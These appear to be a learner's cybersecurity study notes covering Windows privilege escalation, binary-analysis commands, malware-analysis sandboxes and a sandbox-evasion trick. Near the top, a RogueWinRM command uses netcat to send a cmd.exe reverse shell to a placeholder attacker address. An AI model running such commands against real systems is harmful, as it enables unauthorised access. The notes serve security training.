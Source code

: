 2. upload RogueWinRM exploit to the machine
3. start a listener on attacking machine
4. `c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442` | run exploit
--
**Vulnerable software**
--
**unpatched software**
--
vuln software can present privesc opportunites
drivers dont always get updated as often as the opertating system
--
`wmic product get name,version,vendor` | dump information it can gather on installed software can take awhile to execute | may not dump all software info depedning how the software is installed, check shortcuts, services or any other trace of additional software
--
use information gathered with google/exploit-db - may find a public exploit
--
**WINDOWS PRIVESC TOOLS**
--
WinPEAS
PrivescCheck | https://github.com/itm4n/PrivescCheck
WES-NG: windows exploit suggester | https://github.com/bitsadmin/wesng
If you already have a Meterpreter shell on the target system, you can use the multi/recon/local_exploit_suggester module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.
--

**Binary analysis**
--
`file <binary>` - gives come basic info about file, if its binary, if its used libraries etc
`ldd <binary>` - list the libraries of binaries and their path
`ltrace <binary>` - shows which functions are used within the binary
`hexdump -C <bin> | head` - displays file contents in ascii
`strings <binary>` - prints strings of printable characters in files
`readelf -h <binary>` - elf information
`objdump -d <binary>` - dumps asm instructions
`strace -f <binary>` - trace system calls and signals
`nm <binary> | tail` - list symboles from object files
`gdb -q <binary>` - GNU debugger for dynamic debugging
--

**malware analysis**
--
virus total - enter md5sum into website to search for malware
open source sandboxes (cuckoos, CAPE, both available online), any.run, intezer, hybrid analysis - SEARCH FOR SAMPLES FIRST WITH HASH BEFORE USING ONLINE BOX
no text section means malware/binary could be packaged and obfuscated meaning we will need to unpack before further analysis
--
`pecheck <binary>` - portable executable checker, gives all information about binary, including links, segments
--
**sandbox evasion**
--
`https://dl.malwarewatch.org/windows/` | windows iso for FLARE VM (install windows and then visit link inside vm `http://boxstarter.org/package/url?https://raw.githubusercontent.com/fireeye/flare-vm/master/flarevm_malware.ps1` to complete setup)
REMnux - linux reverse engineering sandbox
--
`Long sleep calls`: Malware authors know that sandboxes run for a limited time. Therefore, they program the malware not to perform any activity for a long time after execution. This is often accomplished through long sleep calls. The purpose of this technique is to time out the sandbox.